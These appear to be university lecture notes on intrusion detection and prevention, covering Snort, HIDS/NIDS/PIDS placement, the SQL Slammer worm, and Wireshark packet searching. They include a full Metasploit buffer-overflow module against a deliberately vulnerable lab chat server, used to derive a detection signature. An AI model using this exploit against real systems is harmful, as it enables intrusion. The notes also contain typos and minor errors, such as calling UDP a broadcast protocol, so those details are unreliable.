

# Intrusion Detection and Prevention

We are going to introduce the intrusion detection system (IDS) and intrusion prevention system (IPS). 
We first look at the big picture of cyber defense.
Firewalls block and filter network traffic based on IPs, port numbers and protocol information in packet headers, and are often not enough for cyber defense.
That is why we need intrusion detection, which seaches packet contents for signs of intrusion, and intrusion prevention, which acts on detected attacks.
We will first define the IDS, and discuss where to deploy it.
Then we will talk about intrusion prevention.
As an example of intrusion detection, we are going to introduce a protocol analyzer called Wiresahrk.
Wireshark is not particularly designed for intrusion detection, but capturing network traffic and showing packet details.
We can use Wireshark to demonstrate the principle of searching packet contents for intrusion.
At last we are going to introduce hands-on labs.

## What is intrusion detection

Let's have a look at the defense in depth picture. 
The Internet (the cloud) is on the left and the rest of all the devices and components belong to a company or campus like UML.
We discussed the external firewall is used to protect servers like email and webh servers in the DMZ.
The internal firewall blocks direct access to computers in the LAN, e.g., other computers on UML campus.
In this way, even if servers in DMZ are compromised, it will still be not easy to hack into other computers of UML.


However, firewalls cannot defeat all attacks.
Firewalls perform blocking and filtering based on IPs, port numbers and protocol information in packet headers.
They are not normally used to detect intrusion, particularly unknown attacks.

What is intrusion detection?
Intrusion detection is a process of identifying and responding to malicious
activities against computers and networks.
An intrusion detection system (IDS) can be software or hardware, which performs intrusion detection.
An IDS collects network traffic from computers and network cables of Interest.
For example, one intrusion detection technique is to check if network traffic is normal or not.
What is normal or not normal? Take the example of a DDoS attack.
During a DDoS attack, suddenly there is a huge spike of traffic coming into the campus and aiming at congesting the network.
The IDS can detect such abnormality and send alerts.

An example IDS is <a href="https://www.snort.org/documents">Snort</a>, a popular open source free IDS.
It has a few components as shown below in the picture.
The packet acquisition compoment captures packets from protected computers.
The packet decoder compoment dissect the packet, e.g., locating headers and packet content.
A pre-processor is a plugin (i.e., a software add-on) to extend functionalities of Snort. 
The detection engine matches extracted packet information against rulesets for detection of potential attacks.
The alerts/logging component reports potential attacks to the administrator and saves related data into a database.


## Host, Network & Perimeter Detection

Let's look at where we put the intrusion detection systems.
Before we do that, let's look at components of the Internet.
Routers are responsible for relaying your messages from end to end, e.g., from your computer to your friend's computer.
There are many routers. Core routers form the Internet backdone and managed by Internet Service Providers (ISPs) like Verizon and Comcast.
The networks of enterprises and schools like UML are customer networks.
They use routers, called edge routers, to connect the campus network to the Internet.
All routers work together, find the best route and forward messages to the destination.
A big enterprise or campus network may be divided into smaller networks, called local area networks (LANs)
LANs are managed by individual units of the enterprise or campus, such as a department.
Therefore, each development may have their own network.



### Host based intrusion detection system (HIDS)
A host based intrusion detection system stays on a single computer.
A HIDS is often a software poragm and protects a single computer. For example, Snort can be used as a HIDS protecting one computer.
Snort collects network traffic coming into and going out of a computer and analyzes the collected network traffic for intrusion detection.
A HIDS may also collect and analyze audit and log files, processes and application running on the host.

We may also deploy a host based intrusion *prevention* system (HIPS) on a host.
A HIPS may perform protocol enforcement (allowing only permitted services running on the host), stack enforcement (dis-allowing code running in a particular memory region, called stack, which is used to store data), and file checksum monitoring to detect files being changed.

### Network-based intrusion detection (NIDS)
The next type of IDS is the network-based intrusion detection system.
A HIDS can be a standalone server, collecting network traffic from computers and networks and analyzing it for intrusion.
Snort can also be a HIDS if we feed network traffic from computers and on the network cable into Snort for analysis.


We may also deploy a network based intrusion *prevention* system (NIPS) within a network.
A NIPS can use *active* rules to shutdown network connections, not just *passively* detecting attacks. 
It can be integrated into firewalls to disable attackers.
It can use data mining techiques to analyze network traffic.

### Perimeter based intrusion detection system (PIDS)
The third type of IDS is called a perimeter based intrusion detection system.
It is often put beside a customer network's edge routers.
The edge routers handles all traffic into the customer network from the Internet and out of the customer network to the Internet.
The PIDS forms our first line of defense given its location.


We may also deploy a perimeter based intrusion *prevention* (PIPS) at edge routers. 
A PIPS can actively block known malicious attacks and perform zero-latency blocking. 
Zero latency blocking is not easy because there is so much traffic at high speed going through a router.
Can you actually inspect all the network packets one by one?
Sometimes that is impossible. So it's very challenging to perform zero latency blocking.

## Emergence of Intrusion Prevention
Intuition detection is apprently not enough since it only detects attacks.
We also want to actually prevent the attacks.
However, three problems are apparent. 
1. False Positives (false alarm). False alarms are a great challenge to IDS and IPS. Given the variety of network traffic, an IDS always generates false alarms, treating normal traffic as attacks. If traffic generating flase alarms is blocked, the customers for sure will not be happy since their use of Internet will be disrupted.
2. Denial Of Service – Blocking spoofed hosts. Will you be happy if your computer is blocked from accessing the Internet even if it is compremised? ISP will have to handle too many phone calls from angry customers.
3. Latency – Delays in blocking limit effectiveness. It takes time to find an attack and block it. At the time of blocking, maybe it is already too late. 

Evolution of the technology, and merging of firewall and IDS and IPS functionalitare will help solve these problems.
One thing we need to understand is there is no absolute security. With firewalls, IPS and IDS, computers can still be compromised since defense measures cannot always detect the attacks. 

## Real-World Examples

### SQL Slammer worm
We now see a real-world attack, <a href="https://www.giac.org/paper/gsec/3091/ms-sql-slammer-sapphire-worm/105136">SQL slammer computer worm</a>.
On July 24th 2002, Microsoft announced a vulnerability of their SQL server.
The purpose was to tell people to patch their SQL servers.
On January 25th 2003, the SQL Slammer worm was unleashed.
At 05:29:36GMT, the SQL Slammer worm was detected for the first time.
It infected more than 90 percent of vulnerable hosts within 10 minutes.

The worm has 376 byte viral payload in a single UDP packet. UDP is one type of Internet protocol for transmitting data.
It infects machines with a single packet over UDP/1434.
UDP is a broadcast protocol. So it is possible to infect multiple hosts with 1 packet.

What is a computer worm? It is a malware program.
A worm can send itself to a vulnerable server and may compromise it.
Once the worm compromises the server and gets into the server, the worm code runs again, trying to find other vulnerable computers on the Internet.
Therefore, the worm can propagate itself to many computers, from one computer to another computer.
The number of infected computers grows exponentially.
That's why we call this as a worm because this type of malware program can propagate itself autonomously, like crawling itself around the Internet.

### How to stop SQL Slammer?
A vulenrable SQL server shall be patched. In 2002, patching was not so smart. Today, pacthing is made automatic.

Firewall can be used to block SQL worm packets to UDP/1434. We may use a VPN for access to sensitive services within a customer network, not exposing servers in the customer to the internet.

We may use intrusion detection and prevention techniques. UDP/1434 is a well known protocol.
It was a well known vulnerability and known 6 months before exploit.
People just did not care!
IDP signatures can detect and block exploits of this vulnerability.
The size of the packet is anomalous behavior.
Zero-Latency Active IDS/IDP is the only way of blocking this worm from propagating so fast.

## Wireshark
### Capturing packets
Wireshark is a very useful software program.
It can capture network packets coming into and going out of your computer and show all the packets.
The picture below is the Wireshark interface.
A computer may be installed with multiple network cards.
For example, we choose to monitor the *Ethernet* card. All packets into and out of this card will be captured.


Double click on the network interface, e.g., *Ethernet*. The capturing starts.
The picture below shows the interface of the capturing window, command menus, display filter. listing of
captured packets, details of selected packet header, and binary packet content.


The display filter is very useful. Because there's so much traffic sometimes,
you may not want to see all the packets.
You can actually set up a display filter to show what you want to see.
In the filter expression, *ip.src* refers to the source ip (e.g., 10.0.2.16).
*ip.dst* refers to the destination ip (e.g., 10.0.2.13).

The details of a selected packet header are shown in a panel.
When you click a packet, Wireshark will show you the headers of the packet.
You can see here there are a lot of headers.
A header can have many fields. For example, the IP header has the source and destination IP addresses.
This is one power of Wireshark.
It shows the names of those fields to help you understand the protocols.
When you learn the Internet, Wireshark will help you a lot telling you
what each field means and what is the name.

The binary content of the entire packet is shown in the bottom panel, including all the headers in binary.

### Searching packet contents for intrusion detection

The code below gives the Ruby code of the knock attack we wrote for Metasploit against our vulnerable chat server vchat. The statement in bold defines the malicious string that is sent to vchat and is also listed as follows. 
```
    outbound = "KNOCK /.:/" + "A"*2002 + [target['jmpesp']].pack('V') + "C"*32 + shellcode 
```
The variable outbound contains the malicious string. It can be observed that the malicious string contains the string "KNOCK /.:/" + "A"*2002, which is "KNOCK /.:/" followed by 2002 As. This string can be used as a signature to detect the knock attack.

```
##
# The # symbol starts a comment
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
# File path: .msf4/modules/exploits/windows/vchat/knock.rb
##
# This module exploits the KNOCK command of vulnserver
##

class MetasploitModule < Msf::Exploit::Remote	# This is a remote exploit module inheriting from the remote exploit class
  Rank = NormalRanking	# Potential impact to the target

  include Msf::Exploit::Remote::Tcp	# Include remote tcp exploit module

  def initialize(info = {})	# i.e. constructor, setting the initial values
    super(update_info(info,
      'Name'           => 'Vulnserver Buffer Overflow-KNOCK command',	# Name of the target
      'Description'    => %q{	# Explaining what the module does
         vulnserver is intentially written vulnerable.
      },
      'Author'         => [ 'fxw' ],	## Hacker name
      'License'        => MSF_LICENSE,
      'References'     =>	# References for the vulnerability or exploit
        [
          [ 'URL', 'https://github.com/xinwenfu/Malware-Analysis/edit/main/MetasploitNewModule' ]
        ],
      'Privileged'     => false,
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'thread', # Run the shellcode in a thread and exit the thread when it is done 
        },      
      'Payload'        =>	# How to encode and generate the payload
        {
 #         'Space'    => 5000,	# Space that can hold shellcode? No need in this exploit
          'BadChars' => "\x00\x0a"	# Bad characters to avoid in generated shellcode
        },
      'Platform'       => 'Win',	# Supporting what platforms are supported, e.g., win, linux, osx, unix, bsd.
      'Targets'        =>	#  targets for many exploits
        [
          [ 'vulnserver-KNOCK',
            {
              'jmpesp' => 0x6250151C # This will be available in [target['jmpesp']]
            }
          ]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'Mar. 30, 2022'))	# When the vulnerability was disclosed in public


    register_options( # Available options: CHOST(), CPORT(), LHOST(), LPORT(), Proxies(), RHOST(), RHOSTS(), RPORT(), SSLVersion()
      [
        Opt::RPORT(9999),
	Opt::LPORT(11111)
      ])
  end

  def exploit	# Actual exploit
    print_status("Connecting to target...")
    connect	# Connect to the target

#    sock.get_once # poll the connection and see availability of any read data one time
	  
    shellcode = payload.encoded	# Generated and encoded shellcode
    outbound = "KNOCK /.:/" + "A"*2002 + [target['jmpesp']].pack('V') + "C"*32 + shellcode # Create the malicious string that will be sent to the target

    print_status("Trying target #{target.name}...")

    sock.put(outbound)	# Send the attacking payload

#    handler	# A handler is a process listening for and respondsing to connections from the target
    disconnect	# disconnect the connection
  end
end
```

We now show how to use Wireshark to search the signature string and detect the knock attack. As a demo, on Windows we start Wireshark to capture the traffic between the attacking Kali VM and Windows VM where vchat runs. Once the traffic is dumped, we can search contents of captured packets for the signature string.

To find something such as a string within packets, click on *Edit* > *Find Packet*. 
* Select *Packet list*, *Packet details* or *Packet bytes*, that is, where to search
* Select the type of data (encoding format) *Narrow & Wide*, *Narrow (UTF-8/ASCII)* or *Wide (UTF-16)* for the string search
* Check *Case sensitive* if needed
* Select *Display filter*, *Hex value*, *String* or *Regular expression*. The *Display filter* allows to find pakcets matching the display filter entered in the text entry field. 

The screenshot below shows the search of string "KNOCK" in packet bytes.


## Hands-on

Read [Wireshark](#wireshark)

### Hands-on 1 Capturing Packets
Capture packets between Windows VM and Kali VM.

To find the IP of the Windows VM, use the command *ipconfig* within a command console.
To find the IP of the Kali VM, use the command *ifconfig* within a terminal.

### Hands-on 2 Identifying Attack
Deploy the *knock* attack against Windows VM. 
Use Wireshark to capture the attack traffic.
Can you find the attack packets sent from Kali VM to Windows VM?

